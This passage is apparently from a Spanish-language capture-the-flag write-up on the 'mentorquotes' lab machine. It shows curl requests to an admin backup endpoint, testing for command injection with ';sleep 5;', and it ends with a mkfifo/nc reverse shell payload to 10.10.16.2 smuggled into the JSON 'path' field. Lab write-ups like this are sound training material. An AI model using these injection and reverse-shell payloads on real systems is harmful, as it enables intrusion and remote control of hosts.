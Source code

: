 Acción: alternativa con **curl**

```bash
curl -s -X POST http://api.mentorquotes.htb/admin/backup -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0" -H "Content-Type: application/json" -d '{"path":"test"}' | jq
```

Resultado:

```bash
{
  "INFO": "Done!"
}
```

**Nota:** en este punto la hipótesis es tratar de hacer un command injection, ya que es posible que el backup este interactuando con tar o zip

*Ejemplo:* si con tar ocurre algo como descomprimir un archivo en una ruta específica, podemos concatenar comandos de la siguiente forma y ver si recibimos conexión:

```bash
tar -cf /user/ejemplo.tar /etc/passwd
```

```bash
tar -cf /user/ejemplo.tar /etc/passwd; ping -c 1 IP_ATACANTE 
```

Esto podría derivare a una **Reverse Shell**

Acción:

```bash
curl -s -X POST http://api.mentorquotes.htb/admin/backup -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0" -H "Content-Type: application/json" -d '{"path":";sleep 5;"}' | jq
```

Explicación: primero probamos sin el punto y coma `;` pero no pasa nada, luego probamos con el de delante y nada. Cuando ponemos los dos `;sleep 5;` la respuesta tarda 5 segundo en darse, tenemos un **command injection**

Acción:

```bash
tcpdump -i tun0 icmp -n
```

![Captura](./Imágenes/tcpdump_mentor.png)

Acción:

```bash
curl -s -X POST http://api.mentorquotes.htb/admin/backup -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0" -H "Content-Type: application/json" -d '{"path":";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 443 >/tmp/f;"}' | jq
```
